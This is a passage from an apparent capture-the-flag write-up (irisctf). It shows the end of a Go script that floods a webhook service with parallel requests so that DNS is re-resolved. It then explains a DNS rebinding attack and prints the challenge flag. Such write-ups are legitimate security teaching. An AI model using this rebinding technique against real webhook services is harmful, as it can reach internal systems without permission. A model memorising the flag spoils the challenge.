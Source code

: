 ```go
                                resp, err := http.Post(url, "application/json", bytes.NewBuffer(payload))
                                if err != nil {
                                        fmt.Println("Error:", err)
                                        continue
                                }
                                resp.Body.Close()
                                fmt.Println("Status:", resp.Status)
                        }
                }()
        }
        wg.Wait()
}

func generateToken(length int) string {
        const charset = "abcdef0123456789"
        result := make([]byte, length*2)
        for i := range result {
                result[i] = charset[rand.Intn(len(charset))]
        }
        return string(result)
}
```

This `dns_refresh.go` will run in parallel and simply creates new webhooks with the same requestrepo link. The purpose of this is so that it will be forced to resolve the DNS again and refresh it.

Running them in parallel and then removing the A record pointing to `example.com` will eventually give us the flag when the TTL is surpassed.

`irisctf{url_equals_rebind}`
